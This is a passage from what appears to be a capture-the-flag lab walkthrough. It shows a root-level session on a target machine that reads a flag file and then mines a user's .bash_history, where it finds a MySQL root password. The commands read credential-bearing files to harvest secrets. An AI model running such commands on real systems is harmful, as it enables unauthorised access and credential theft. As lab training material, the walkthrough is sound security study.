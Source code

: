 `getuid`:
```
Server username: root ←
```

`ls /root`: [✓]
```
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  3106  fil   2014-02-20 08:13:56 +0530  .bashrc
100644/rw-r--r--  140   fil   2014-02-20 08:13:56 +0530  .profile
100644/rw-r--r--  33    fil   2022-01-25 10:45:29 +0530  FLAG1 ←
```

`cat /root/FLAG1`: [✓]
```
39493c859daa977560a8ac0917edb054 ←
```

**Step 8**.

`ls /home/auditor`: [✓]
```
Listing: /home/auditor
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100664/rw-rw-r--  5990  fil   2024-04-10 19:38:50 +0530  .bash_history ←
100644/rw-r--r--  220   fil   2022-01-25 09:55:34 +0530  .bash_logout
100644/rw-r--r--  3637  fil   2022-01-25 09:55:34 +0530  .bashrc
100644/rw-r--r--  675   fil   2022-01-25 09:55:34 +0530  .profile
```

There is one `.bash_history` file present on the target machine. Let's read the file and check if we can get any interesting information.

`cat /home/auditor/.bash_history`: [✓]
```
groupadd mysql
useradd -r -g mysql mysql
mkdir -p /usr/local/src/mysql
cd /usr/local/src/mysql
wget http://cdn.mysql.com/Downloads/MySQL-5.6/mysql-5.6.10.tar.gz
tar xvfz mysql-5.6.10.tar.gz
cd mysql-5.6*
mysql -h 192.180.99.3 -u root -pfArFLP29UySm4bZj ←
rm CMakeCache.txt
cmake \
-DCMAKE_INSTALL_PREFIX=/usr/local/mysql-5.6.10 \
-DWITH_INNOBASE_STORAGE_ENGINE=1\
-DDEFAULT_CHARSET=utf8 \
-DDEFAULT_COLLATION=utf8_general_ci \
-DMYSQL_UNIX_ADDR=/tmp/mysql.sock \
-DSYSCONFDIR=/etc \
.
make
make install
ln -s /usr/local/mysql-5.6.10 /usr/local/mysql
cd /usr/local/mysql
cp ./support-files/my-default.cnf /etc/my.cnf
echo "character-set-server = utf8" >> /etc/my.cnf
echo "collation-server = utf8_general_ci" >> /etc/my.cnf
echo "character-set-client-handshake = false" >> /etc/my.cnf
chown -R root .
```